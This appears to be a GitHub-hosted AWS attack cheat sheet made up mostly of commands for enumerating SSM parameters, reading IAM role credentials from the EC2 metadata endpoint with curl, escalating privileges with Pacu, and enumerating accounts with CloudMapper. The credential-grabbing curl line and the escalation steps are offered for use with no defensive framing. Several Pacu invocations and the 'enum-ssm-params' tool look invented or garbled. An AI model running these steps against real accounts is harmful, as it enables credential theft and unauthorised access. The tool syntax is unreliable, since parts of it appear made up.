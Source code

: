 ### Enumeration of AWS Systems Manager parameters


```
aws ssm describe-parameters --query 'Parameters[*].[Name]' --output text
```


```
enum-ssm-params --profile <aws_profile> --region <aws_region>
```


```
python3 pacu.py --method enum-ssm-parameters --profile <aws_profile> --regions <aws_region>
```



### Privilege escalation through EC2 metadata


```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

- `curl`: The command-line tool used to perform the HTTP request.
- `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>`: The URL endpoint of the metadata service to retrieve the security credentials for the specified IAM role. Replace `<role_name>` with the name of the IAM role.



```
python3 pacu.py --method escalate_iam_roles --profile <aws_profile> --regions <aws_region> --instances <instance_id>
```

In this command, the `pacu.py` script is being executed with the `escalate_iam_roles` method, which is specifically designed to escalate privileges associated with IAM roles. The `--profile` option specifies the AWS profile to use for authentication, and the `--regions` option specifies the AWS regions to target. The `--instances` option is used to specify the target EC2 instance ID(s) on which the IAM roles will be escalated.


### AWS cross-account enumeration


```
python3 cloudmapper.py enum --account <account_id> --regions <aws_regions>
```

- `python3 cloudmapper.py`: Executes the CloudMapper tool using the Python 3 interpreter.
    
- `enum --account <account_id> --regions <aws_regions>`: Specifies the enumeration mode and provides additional parameters to configure the account and regions to scan.
    
    - `--account <account_id>`: Specifies the AWS account ID to scan. Replace `<account_id>` with the actual AWS account ID you want to enumerate.
        
    - `--regions <aws_regions>`: Specifies the AWS regions to scan. Replace `<aws_regions>` with a comma-separated list of AWS regions (e.g., us-east-1,us-west-2) you want to include in the enumeration.
